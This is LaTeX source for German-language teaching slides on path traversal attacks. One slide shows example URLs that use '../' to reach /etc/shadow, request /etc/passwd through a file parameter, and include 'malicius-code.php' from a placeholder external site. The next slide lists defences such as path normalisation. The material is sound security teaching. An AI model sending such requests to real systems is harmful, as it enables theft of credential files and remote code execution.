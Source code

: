 \documentclass[10pt]{beamer}
\begin{document}
\begin{frame}[fragile]{Path Traversal Attack - Beispiele}
  Beispiel Zugriff auf Dateien:
  \begin{lstlisting}[style=BashStyle]
  http://some_site.com.br/get-files.jsp?file=report.pdf
  http://some_site.com.br/some-page.asp?page=index.html
  \end{lstlisting}

  UNIX Passwort abgreifen:
  \begin{lstlisting}[style=BashStyle]
  http://some_site.com.br/../../../../etc/shadow
  http://some_site.com.br/get-files?file=/etc/passwd
  \end{lstlisting}

  Auch m\"oglich Dateien und Scripte von externen Websiten einzubinden:
  \begin{lstlisting}[style=BashStyle]
  http://some_site.com.br/some-page?page=http:
    //other-site.com.br/other-page.htm/malicius-code.php
  \end{lstlisting}
\end{frame}

\begin{frame}[fragile]{Path Traversal Attack - Schutzma{\ss}nahmen}
  \begin{itemize}
    \item Nutzereingaben vermeiden wenn m\"oglich, bei Datei System Aufrufen
    \item Indexes anstatt Dateinahmen verwenden, f\"ur Benutzereingaben
    \item Nutzer soll nicht ganzen Pfad eingeben k\"onnen, mit eigenem Pfad umgeben
    \item Pfade normalisieren
    \begin{itemize}
      \item "." Segmente entfernen
      \item ".." - Segmente die ein nicht-".." Segment dafor haben werden entfernt
      \item Wenn Pfad relative und das erste Segment enth\"alt ein ":" Charackter dann wir ein "." vorangestellt
    \end{itemize}
  \end{itemize}
\end{frame}


\subsection{Format String Attack}
\end{document}
